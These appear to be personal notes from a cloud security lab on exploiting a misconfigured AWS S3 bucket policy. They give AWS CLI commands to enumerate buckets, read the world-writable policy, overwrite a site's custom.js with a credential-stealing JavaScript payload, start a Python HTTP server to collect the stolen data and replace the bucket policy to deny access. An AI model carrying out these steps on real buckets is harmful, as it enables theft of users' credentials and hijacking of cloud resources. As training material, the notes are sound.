 S3 is commonly used for storing static resources required by web applications. In such cases, the static resource will require public read permission. While providing public read permission to the bucket, the bucket policy has to be crafted very carefully.  

In this lab, we will take a look at how to leverage the misconfigured bucket policy to perform various attacks on the web application.

==================================================================

Configuring AWS CLI --> `aws configure`
Listing s3 buckets --> `aws s3api list-buckets`
![[Pasted image 20210827224403.png]]
Listing objects in first bucket --> `aws s3 ls s3://s3-file-load-174791200647`
![[Pasted image 20210827224612.png]]
CHecking if static website is enabled --> `https://s3-file-load-174791200647.s3-website-us-east-1.amazonaws.com`
![[Pasted image 20210827224807.png]]

Listing objects in the second bucket -->  `aws s3 ls s3://s3-file-load-static-174791200647`
![[Pasted image 20210827225032.png]]
Retrieving bucket policy --> `aws s3api get-bucket-policy --bucket s3-file-load-static-174791200647 --output text | python3 -m json.tool`
![[Pasted image 20210827225245.png]]
Anyone can update the bucket policy and objects

Copying custom.js --> `aws s3 cp s3://s3-file-load-static-174791200647/static/javascript/custom.js ./`
Modifying custom.js 
![[Pasted image 20210827225553.png]]
![[Pasted image 20210827225619.png]]
Upload custom.js modified -->  `aws s3 cp custom.js s3://s3-file-load-static-174791200647/static/javascript/custom.js`

Injecting simple javascript payload to steal credentials
![[Pasted image 20210827225928.png]]

Start python HTTP server --> `python3 -m http.server 65500`

Modifying policy to deny access -->  `aws s3api get-bucket-policy --bucket s3-file-load-static-174791200647 --output text | python3 -m json.tool > policy.json`
![[Pasted image 20210827230525.png]]
Upload policy -->  `aws s3api put-bucket-policy --bucket s3-file-load-static-174791200647 --policy file://policy.json`